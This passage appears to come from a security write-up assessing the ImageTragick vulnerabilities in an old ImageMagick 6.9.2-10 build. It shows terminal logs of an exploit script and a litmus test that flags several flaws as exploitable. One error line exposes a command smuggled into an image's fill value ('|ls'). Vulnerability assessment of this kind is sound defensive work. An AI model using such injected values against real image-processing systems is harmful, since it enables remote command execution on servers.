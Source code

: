     ./configure
    make

Attempting to `convert` (one of the most feature laden ImageMagick binaries) using the `6.9.2-10` build, with the exploit input image:

    root@kali:~/git/PoCs# ./exploit.sh 
    total 84
    drwxr-xr-x 3 root root  4096 Sep 28 15:43 .
    drwxr-xr-x 3 root root  4096 Sep 28 13:29 ..
    -rw-r--r-- 1 root root   112 Sep 28 15:43 exploit.mvg
    -rw-r--r-- 1 root root   111 Sep 28 15:41 exploit.png
    -rwxr-xr-x 1 root root   241 Sep 28 15:33 exploit.sh
    drwxr-xr-x 8 root root  4096 Sep 28 09:31 .git
    convert: unrecognized color `https://localhost/sp1017.jpg"|ls ...
    convert: unable to open image `/tmp/magick-22459XyJrh1pYEj2M':...
    convert: unable to open file `/tmp/magick-22459XyJrh1pYEj2M': ...
    convert: non-conforming drawing primitive definition `fill' @ ...


Yields a `ls -la` listing of the current directory. Not good.


Further examining the `6.9.2-10` build of ImageMagick using `test.sh`, the ImageMagick vulnerability litmus test script (see *Appendix A*):

    root@kali:~/git/PoCs# ./test.sh 
    testing read
    UNSAFE
    
    testing delete
    UNSAFE
    
    testing http with local port: 39426
    SAFE
    
    testing http with nonce: 989236bb
    SAFE
    
    testing rce1
    UNSAFE
    
    testing rce2
    UNSAFE
    
    testing MSL
    UNSAFE

As seen from the output, a number of vulnerabilities are exploitable.




## Exploitability assessment --- local shells

Using specifically compiled version `6.9.2-10` of ImageMagick, pre the exposure of the *ImageTragick* vulnerabilities in mid 2016.

    root@kali:~/Downloads/ImageMagick-6.9.2-10# ./utilities/convert --version
    Version: ImageMagick 6.9.2-10 Q16 x86_64 2019-09-28 http://www.imagemagick.org
    Copyright: Copyright (C) 1999-2016 ImageMagick Studio LLC
    License: http://www.imagemagick.org/script/license.php
    Features: Cipher DPC OpenMP 
    Delegates (built-in): x 
